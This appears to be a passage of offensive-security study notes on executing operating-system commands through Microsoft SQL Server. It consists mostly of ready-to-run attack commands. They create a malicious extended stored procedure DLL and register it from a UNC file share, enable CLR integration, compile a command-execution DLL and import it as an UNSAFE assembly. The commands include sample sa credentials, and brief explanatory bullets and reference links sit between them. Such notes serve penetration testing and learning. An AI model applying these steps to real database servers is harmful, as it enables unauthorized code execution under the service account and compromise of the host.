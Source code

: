 ```
Create-SQLFileXpDll -OutFile C:\fileserver\xp_calc.dll -Command "calc.exe" -ExportName xp_calc
Get-SQLQuery -UserName sa -Password pw -Instance instance -Query "sp_addextendedproc 'xp_calc', '\\192.168.15.2\fileserver\xp_calc.dll'"
Get-SQLQuery -UserName sa -Password Password1 -Instance instance -Query "EXEC xp_calc"
```

Listing existing:

```
Get-SQLStoredProcedureXP -Instance instance -Verbose
```

# Custom CLR Assemblies

* CLR (Common Language Runtime) is a run-time environment provided by the .NET framework
* SQL Server CLR integration allows writing stored procedures and other things by importing a DLL.
* CLR integration is off by default
* `sysadmin` privileges are required by-default.
* Create assembly, Alter assembly or DDL_Admin role can also use it.
* Execution takes place with privileges of the service account
* DLL can be loaded from a local path or a UNC path

> https://docs.microsoft.com/en-us/dotnet/framework/data/adonet/sql/introduction-to-sql-server-clr-integrationv

> https://blog.netspi.com/attacking-sql-server-clr-assemblies/

Create DLL:
```
C:\Windows\Microsoft.NET\Framework64\v4.0.30319\csc.exe /target:library C:\Users\labuser\Desktop\cmd_exec.cs
```

Enable CLR:
```
use msdb
GO
-- Enable show advanced options on the server
sp_configure 'show advanced options',1
RECONFIGURE
GO
-- Enable clr on the server
sp_configure 'clr enabled',1
RECONFIGURE
GO
```

Create DLL:
```
Create-SQLFileCLRDll -ProcedureName "runcmd" -OutFile runcmd -OutDir C:\Users\labuser\Desktop
```

Import the assembly from file:
```
CREATE ASSEMBLY my_assembly FROM '\\192.168.15.2\fileserver\cmd_exec.dll' WITH PERMISSION_SET = UNSAFE;
GO
```
